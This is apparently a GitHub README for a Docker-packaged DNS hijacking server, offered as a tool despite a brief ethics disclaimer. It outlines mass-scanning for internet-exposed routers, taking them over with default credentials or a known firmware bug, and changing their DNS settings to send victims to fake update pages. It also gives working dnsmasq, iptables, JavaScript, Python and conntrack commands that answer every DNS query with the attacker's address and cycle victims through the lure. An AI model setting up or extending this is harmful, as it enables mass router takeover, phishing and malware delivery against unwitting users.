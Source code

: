 [![Maintenance](https://img.shields.io/badge/Maintained-yes-green.svg)]() [![Powered by](https://img.shields.io/badge/ubuntu-v16.04-blue.svg)]() [![Docker](https://img.shields.io/badge/DockerImage-v1.0.1-green.svg)](https://hub.docker.com/repository/docker/benchaliah/poseidondns) [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)



## Disclaimer

This tutorial is for informational and educational purposes only. I believe that ethical hacking, information security and cyber security should be familiar subjects to anyone using digital information and computers. And I urge anyone who would use this tool to only use it on targets he/she is authorized to access, I hold no responsability in one used it for any unlawful activity.


## About

* This is a tool that can offer a cross-platform (Android, Windows, iOS ... etc) remote and automated penetration, can be used for massive automated social engineering, randomware or more advanced pentests


[DNS hijacking](https://en.wikipedia.org/wiki/DNS_hijacking) is often used for phishing, in order to obtain sensitive information such as credentials for social media and bank accounts, but more advanced exploitation allows for more critical access. Let take the following scenario for instance, if a hacker gain access to the DNS settings in a router, he can in theory then control the entire flow of the target's internet connections, therefore, he can install malwares on the target's devices (smartphone, computer) using social engineering (fake updates, because normal updates done automatically by windows, android or otherwise are almost exlucsivly done via SSL which would require a signed certificate) or some vulnerability in the software already installed on the target's device. However, this process require investing significant time analyzing each target indivually and trying to gain more access.


## Setup

> Must be root

* __Method 1:__

Clone this repo then :
```
$ docker build -t poseidon .
$ docker run -it  --privileged --cap-add=ALL -v /lib/modules:/lib/modules -p 81:80 -p 5353:53 poseidon
```

* __Method 2:__

Pull from docker :
```
$ docker pull benchaliah/poseidondns
$ docker run -it  --privileged --cap-add=ALL -v /lib/modules:/lib/modules -p 81:80 -p 5353:53 benchaliah/poseidondns
```

You can test the server using `dig @dockercontainerIP whateverDomain`, or by setting dhcp in a device (router or otherwise) to `dockercontainerIP`


## Approach

One of ways this tool can be used in, is using Nmap to scan massive IP ranges looking for routers that are exposed to WAN, most of them usually still hold the default login (example: user=admin pass=admin) then changing the DNS address in the DHCP settings, this process can be easily automated using a simple Python script and by using http requests or a Browser automation library (example: Selenium/Chromedriver-FirefoxDriver) you can automatically gain access to thousands of routers, there is also [Shodan](http://shodan.io) that can offer huge numbers of active IPs of routers that are exposed and you can even uses more filters to get only routers that uses a specific firmware/version on which you have a way to access even without default credentials (example : Millions of routers around the world uses Rompager/4.07 a firmware that have a critical vulnerability called [Misfortune Cookie](https://github.com/BenChaliah/MIPS-CVE-2014-9222)).
However, setting thousands of routers towards your DNS similtanously raises another question, how much resources would the server require? The server must respond to the millions of requests each minutes withing few miliseconds for each request, so that the targets wouldn't notice a difference in latency in their internet connection, one of the tools known in the cyber security community for DNS hijacking called DNSChef, a tool that is built on python, which makes it very useful in the case of small sample testing but highly unreliable when you test it against much bigger samples giving high failure rate. On the other hand there's dnsmasq which is written in C (making it much much faster with very little resources) and it offers DNS caching, a DHCP server and more. But since it was not intended for DNS Hijacking it's not quite configurable for such use.

However, in this analysis I'll be explain how did I used it and other low level tools to make a server that even with very low specs (Example : Elastic computer hosted on AWS or gCloud 1 vcpu, 1 Gb of memory) can offer for a huge number of targets a very low latency that compares to that of known public DNS such as `8.8.8.8`, or even supersede it depending on the location of the server and the targets.


### Tools
```
 > dnsmasq 2.79 (or later)
 > Apache/2.4.29 (Ubuntu)
 > conntrack v1.4 (or later)
 > iptables v1.6.1 (or later)
 > python2.7
 > screen version 4.06 (or later)
```

## Summary

* Component 1:

You start two (or more depending on the exploitation) instances of dnsmasq and bind them to different ports

```
$ dnsmasq --no-hosts -p 531 --max-cache-ttl=0
$ dnsmasq --no-hosts --address=/#/yourDNSIP  --server=/.youWebsiteDomain.tld/# -p 532 --max-cache-ttl=0
```

the first one in a regular resolver in order to provide the real DNS records, and the second one will always return an `A record` with the IP address of the server you deploy this docker on except for the domain (or domains, by adding `--server=/.domain2/#`) to which you want to force the targets

* Component 2:

We will be adding the some rules to `NAT` table, the idea is to forward connections comming through port 53 (UDP and TCP, but mainly the former) to either of the dnsmasq instances, and the way to do so is by putting the rule in __PREROUTING__ chain specification, first we'll forward all connections towards the DNS that would provide the __fake records__

```
$ iptables -t nat -A PREROUTING -p tcp -m tcp --dport 53 -j REDIRECT --to-port 532
$ iptables -t nat -A PREROUTING -p udp -m udp --dport 53 -j REDIRECT --to-port 532
```

after the target get redirecred to the domain you which or download the software you wants, you need to trigger the process that will add an exception for the associated __REMOTE_ADDR__ in the port forwarding rules. Here's an example using Javascript, implemented in your domain page

```javascript
<script type="text/javascript">
	if (document.visibilityState == "visible") {
		var xhttp = new XMLHttpRequest();
		xhttp.open("GET", "http://myDNSIP/cgi-bin/route", true);
		xhttp.send();
	}
</script>
```

the previous script will trigger the execution of a Python script inside cgi-bin. Now the script does multiple things but all are very lightweight, first create an empty file called __{REMOTE_ADDR}__ inside a folder called __IPS__, for instance, if the request came from `174.123.23.54` their will be a file called `174.123.23.54` inside IPS, then it'll generate a bash script that will be executed and delete itself when finished (by adding this command `rm -f -- "$0"` at the end). the bash contains also multiple iptables rules, which are the exceptions for all the targets that already went through the process:

```python
for i in os.listdir("./ips/") + [os.environ['REMOTE_ADDR']]:
	rules_str += "-A PREROUTING -s %s/32 -p udp -m udp --dport 53 -j REDIRECT --to-ports 531\n"%i

# Then save the exceptions in a file inside a folder
rules_path = "./tmp/script_%d.rules"%rand_name
with open(rules_path, "w") as f:
	f.write(base_query_str.replace("{loop_str}", rules_str))
```

An independant Python script running in a screen must update iptables rules every few miliseconds through 

`cat ./tmp/script_{rand_name}.rules | iptables-restore`

In order to improve efficiency and avoid running the same exceptions multiple times the independ Python script (or any other approach to loop this command) will be running:

`cat $(ls -1t /var/www/cgi-bin/tmp/*.rules | head -1) | iptables-restore`

the first part of the command will read the latest created rules file which will hold the previously generated rules without duplicates then pipe it to `iptables-restore`.



* Component 3:

Let assume you want the targets to get redirected to your website/domain periodically (the period can be constant or variate), this is were `runScreen1.py` comes to play, you also run this script in an independant screen, the script will run:

> rand_int holds the same value as the one in the file /var/www/cgi-bin/rand_ref which can variate or be constant (depending on your exploitation)

`$ cd /var/www/cgi-bin/ips && find * -mmin +{rand_int} -exec  conntrack -D -s {} > /dev/null \; && find * -mmin +{rand_int} -exec rm -f {} \; && cd /root`

Let now disect this command, `find * -mmin +{rand_int} -exec` uses the filesystem to select only the files (here IPs) that where created/modified at least __{rand_int}__ minutes ago, for instance if you want to redirect the targets each hour you just need to put 60 inside `/var/www/cgi-bin/rand_ref` file and this will remove the exception from the port forwarding rules by deleting the IP from `cgi-bin/ips`, by consequence the next rules file generated by `cgi-bin/route` will not be containing an exception rule for this IP. Now `-exec` will pipe the listed IPs fiting the criteria to another command `conntrack`.


* Component 2-3 (__conntrack__):

Connection tracking is a core feature of the Linux kernel's networking stack. It allows the kernel to keep track of all logical network connections or flows, and thereby identify all of the packets which make up each flow so they can be handled consistently together. However, as much as this feature allows for a smooth flow of packets at a very low level, for the purpose of this exploitation it has a small down side that can easily be dealt with (I wouldn't say a down side because connection tracking is essential for a DNS server low latency and efficiency), when ever you update the iptables rules the already established connections will not abide by the new rules which is a big problem in this specific situation, because what we want is for the target to be switched between different dnsmasq instances instantly after a specific trigger (like http request to `cgi-bin/route`).

> `conntrack -D -s`

This command will flush the existing expectations (connection trackers) based on the source address, which by consequence will force the kernel to establish a new connection based on the updated rules. We are running this command in bash generated by `cgi-bin/route` to switch the target between the fake DNS to the real one, and vice versa using `runScreen1.py`



> * I'll soon be adding a video showing how the server works, and a benchmark.
